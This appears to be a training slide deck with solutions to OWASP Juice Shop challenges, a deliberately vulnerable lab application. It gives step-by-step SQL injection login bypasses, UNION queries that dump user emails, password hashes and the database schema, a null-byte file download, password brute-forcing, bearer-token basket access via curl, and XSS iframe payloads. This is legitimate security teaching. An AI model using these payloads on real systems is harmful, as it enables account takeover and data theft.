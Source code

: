 # Juice-Shop

Proposed solution to challenges

---
## A01:View Basket

>Challenge: View another user's shopping basket<!-- .element: style="font-size:0.8em"-->

<code style="font-size: 0.5em;">

0. Create a new user
1. Use browser to observe the basket API, when entering your basket - see HEADERS
2. http://&lt;yourhost&gt;:3000/rest/basket/6 - Can I use that to view another user?
3. BEARER token, check HEADER for the Authorization
4. Try another user name with steps below ...
5. Grab the Bearer Token and do export BEARER_TOKEN="..then the token here"
6. curl -X GET -H "Authorization: Bearer \"$BEARER_TOKEN\"" "http://&lt;yourhost&gt;:3000/rest/basket/3"
7. You can also use the "Resend" feature in Firefox to do nr 6.

</code>

---
## A01:Login as admin

>Challenge: Log in with the administrator's user account<!-- .element: style="font-size:0.8em"-->

<code style="font-size: 0.5em;">

0. Go to the login page in juice shop
1. Observe 2 input fields. Test with random characters?
2. Let's check if the website is adding our input to the SQL
3. Test with email: **'** e.g. pwd: 111
4. Check Network tab in your browser and "Response" for the 500 error. There is a json with the SQL used
5. "SELECT * FROM Users WHERE email = '**'**' AND password = '111' ..."
6. Get it to return as TRUE (sql) or find the admin's name
7. Now we know the SQL query related to logging in. We can send **'** OR TRUE -- as email input and any string as a password
8. "SELECT * FROM Users WHERE email = '' OR TRUE -- AND password = '111' ..."
9. Observe the admin user name in the response - admin@juice-sh.op
10. Also take note on the SQL that is used (from the error response)

</code>

---
## A01:Admin Section

>Challenge: Access the administration section of the juice shop<!-- .element: style="font-size:0.8em"-->

<code style="font-size: 0.5em;">

0. Do not log-in to the juice-shop
1. Find the administrator page
2. User the debugger TAB look in the source => main.js
3. Search for admin - and we will find 'administration'
4. Remember to login as `admin` before you try the URL

</code>

---
## A02:Weird Crypto

>Inform the shop about an algorithm or library it should definitely not use the way it does.<br>http://&lt;yourhost&gt;:3000/#/contact

<code style="font-size: 0.5em;">

1. Create a new user
2. Change password for new user with an easy one e.g 'admin123' and observe response from /change-password? (In the Firefox tool)
3. e.g. password:"0192023a7bbd73250516f069df18b500"
4. What type of hash is this?
5. Use this information (hash type) to give feedback to juice-shop
6. http://&lt;yourhost&gt;/#/contact
7. You can also solve this by googling - **weak crypto algorithms** 
8. Hint on 4 - **hash analyzer tunnelsup**

</code>

---
## A03:Login Jim

>Log in with Jim's user account

<code style="font-size: 0.5em;">

1. Find User Jim's e-mail and his password hash
2. Hint - see if there is vulnerability in searching products
3. in main.js we discover - /rest/products/search?q=
4. Maybe try a SQL Injection?
5. /rest/products/search?q=qwert'))%20UNION%20SELECT%20id,email,password,'4','5','6','7','8','9'%20FROM%20Users--
6. Hint - https://crackstation.net

</code>

---
## A03:Login Bender

>Log in with Bender's user account

<code style="font-size: 0.5em;">

1. Search in main.js to see if there is url related to admin
2. We find - /rest/admin/application-configuration
3. We notice the application domain - juice-sh.op
4. Try login using the user and domain
5. We from previous challenge that the user field is vulnerable for SQL injection
6. Use that knowledge to login on benders account
7. bender@juice-sh.op'--;

</code>

---
## A05:Deprecated Interface

>Deprecated Interface - Use a deprecated B2B interface that was not properly shut down.

<code style="font-size: 0.5em;">

1. Use the - "Complaint page" (See menu)
2. Click the - "Browse" - Notice the allowed file types.
3. Look into main.js - for e.g. ZIP, which was allowed type
4. Notice any file choices not shown behind Browse button? ( allowedMimeType )
5. Try load an empty XML file - notice the response (devtool) in Firefox

</code>

---
## A06:Vulnerable Library

>Inform the shop about a vulnerable library it is using. Mention the exact library name and version in your comment

<code style="font-size: 0.5em;">

1. Hint - "Poison null byte" - %00 e.g. %2500 in URL
2. Search main.js - see if you find something related to ftp
3. There seems to be a backup file forgotten - package.json.bak
4. Download the file above - using "Poison null byte"
5. Investigate the file for vulnerable packages (dependencies)
6. Use Snyk Advisor to investigate vulnerable libraries - https://snyk.io/advisor/
7. e.g. sanitize-html 1.4.2
8. Give feedback to Juice-Shop about this library (Comment box)

</code>

---
## A07:Password Strength

>Log in with the administrator's user credentials **without** previously changing them or applying SQL Injection.

<code style="font-size: 0.5em;">

1. Previous challenge (A01/A03) we noticed admin's e-mail : admin@juice-sh.op
2. Search in main.js for anything login e.g. "/login"
3. Notice in your browser tool - /rest/user/login
4. Login a user you create and notice the payload and api
5. Now you need a password list and something to bruteforce the password.
6. e.g. Try many attempts  on -  /rest/user/login - with the payload {'email':'admin@juice-sh.op', 'password':'mytestpassword'}
7. Passwords files are all over the internet - e.g.  https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/best1050.txt

</code>

---
## A07:GDPR

>Log in with Chris' erased user account.

<code style="font-size: 0.5em;">

1. From previous challenges (A03 or A01 login) - try SQL inject search API to provoke an error
2. Inspect the network response - the error message. Notice the SQL database (SQLITE)
3. With information above, we can see what "db schema sqlite" - www.sqlite.org/index.html - FAQ nr7 https://www.sqlite.org/faq.html#q7
4. From the knowledge of SQLITE_SCHEMA we can produce : blabla'))UNION%20select%20sql,2,3,4,5,6,7,8,9%20from%20sqlite_master--
5. Try this in the search API (A03): /rest/products/search?q=blabla'))UNION%20select%20sql,2,3,4,5,6,7,8,9%20from%20sqlite_master--
6. Inspect the response - Notice the table "Users"
7. Notice the column "DeletedAt" in talbe "Users"
8. Get the deltedAt, email and username
9. /rest/products/search?q=blabla'))UNION%20select%20deletedAt,email,username,4,5,6,7,8,9%20from%20users--
10. Inspect chris.pike's info - he seem to be deleted
11. Login with Chris'es e-mail with knowledge from previous injection info - chris.pike@juice-sh.op'--;

</code>

---
## A10:DOM XSS

>Perform a **DOM XSS** attack with<br>&lt;iframe src="javascript:alert('DOM xss')">

<code style="font-size: 0.5em;">

1. Use the payload on a certain input field
2. Payload: &lt;iframe src="javascript:alert('DOM xss')">

</code>

---
## A10:Client-side XSS Protection (XSS)

>Perform a **persisted** XSS attack with<br>&lt;iframe src='javascript:alert(\`got you xss\`)'><br>bypassing a client-side security mechanism.

<code style="font-size: 0.5em;">

1. Hint - /#/administration portal from previous challenge list all users
2. How to register a user with the payload instead of the users e-mail?
3. Register a user - and inspect the request/response
4. Use "Resend" feature in Firefox - to register a user with the payload
5. Visit the /#/administration portal as the admin to see the effect

</code>
